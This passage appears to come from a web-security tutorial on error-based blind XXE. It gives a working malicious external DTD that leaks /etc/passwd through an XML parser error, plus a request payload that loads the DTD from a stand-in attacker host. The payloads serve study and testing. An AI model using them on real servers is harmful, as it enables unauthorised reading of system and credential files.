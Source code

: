 You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```markup
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
* Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
* Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoke the external DTD error with:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

And you should see the contents of the file inside error message of the response of the web server.

![](../.gitbook/assets/image%20%28143%29.png)

_**Please notice that external DTD allows us to include one entity inside the second \(`eval`\), but it is prohibited in the internal DTD. Therefore, you can't force an error without using an external DTD \(usually\).**_

### **Error Based \(system DTD\)**

So what about blind XXE vulnerabilities when **out-of-band interactions are blocked** \(external connections aren't available\)?. [Information from here](https://portswigger.net/web-security/xxe/blind).

